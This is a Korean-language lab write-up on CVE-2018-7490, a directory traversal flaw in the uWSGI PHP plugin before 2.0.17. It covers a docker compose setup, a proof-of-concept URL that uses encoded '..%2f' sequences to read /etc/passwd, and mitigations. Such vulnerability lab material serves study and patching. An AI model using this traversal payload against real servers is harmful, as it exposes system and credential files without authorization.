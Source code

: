
# uwsgi PHP 디렉토리 순회 취약점 (CVE-2018-7490)


## 개요

uWSGI는 WSGI/uwsgi/http와 같은 프로토콜을 구현하는 웹 애플리케이션 서버이며, 다양한 언어를 플러그인을 통해 지원합니다.

2.0.17 이전 버전의 uWSGI PHP 플러그인에서는 DOCUMENT_ROOT 감지를 제대로 처리하지 않아, %2f(URL 인코딩된 /)를 이용한 경로 조작을 통해 DOCUMENT_ROOT 외부의 파일을 읽거나 실행할 수 있는 취약점이 존재합니다.

## 환경 세팅

터미널에서 아래 명령어 입력

```
docker compose up -d
```
![]1.png

`http://localhost:8080` 에 접속하면 성공적으로 실행중인 uwsgi-php 서버 정보를 확인할 수 있습니다.

![]2.png

## POC

취약한 uWSGI PHP 서버에 다음 URL을 직접 요청:

 `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`

![]result.png

요청 결과, 브라우저에는 리눅스 시스템의 /etc/passwd 파일 내용이 그대로 출력됩니다.:


공격자는 /etc/passwd 외에도 서버 내 .env, 설정 파일, 소스코드 등 민감한 파일에 접근할 수 있습니다.

경우에 따라 원격 코드 실행(RCE) 또는 시스템 권한 탈취로도 이어질 수 있습니다.

## 대응방안

- uWSGI를 2.0.17 이상 버전으로 업데이트
- DOCUMENT_ROOT 하드코딩 또는 접근 경로에 대한 서버 측 필터링 적용